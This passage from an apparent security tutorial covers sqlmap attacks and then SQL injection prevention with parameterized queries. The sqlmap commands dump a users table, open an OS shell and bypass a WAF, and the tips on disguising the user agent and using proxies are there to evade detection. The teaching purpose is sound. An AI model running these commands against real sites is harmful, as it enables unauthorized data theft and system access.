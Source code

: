 #### c) Data exfiltration:
Dump the contents of a specific table:

```text
sqlmap -u "http://example.com/page.php?id=1" --dump -T users
```

#### d) OS command execution:
If the database has sufficient privileges, sqlmap can execute operating system commands:

```text
sqlmap -u "http://example.com/page.php?id=1" --os-shell
```

#### e) Bypassing WAF:
Use sqlmap's built-in WAF bypass techniques:

```text
sqlmap -u "http://example.com/page.php?id=1" --tamper=space2comment
```

### 4.4 sqlmap Best Practices

- Always obtain permission before testing a website for vulnerabilities
- Use sqlmap's `--batch` option for automated runs to avoid user interaction
- Leverage the `--random-agent` option to randomize the User-Agent header and avoid detection
- Use the `--proxy` option to route traffic through a proxy for additional anonymity
- Regularly update sqlmap to benefit from the latest features and bug fixes

## Implementing Parameterized Queries and ORM Libraries

Now that we've explored how to identify and exploit SQL injection vulnerabilities, let's focus on prevention. The most effective way to prevent SQL injection is to use parameterized queries and ORM (Object-Relational Mapping) libraries.

### 5.1 Parameterized Queries

Parameterized queries separate the SQL logic from the data, making it impossible for malicious input to alter the query's structure.

**Example in PHP using PDO:**

```php
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = :username AND password = :password");
$stmt->execute(['username' => $username, 'password' => $password]);
```

**Example in Python using psycopg2:**

```python
cursor.execute("SELECT * FROM users WHERE username = %s AND password = %s", (username, password))
```

### 5.2 ORM Libraries

ORM libraries provide an abstraction layer between your application and the database, automatically handling query parameterization and escaping.

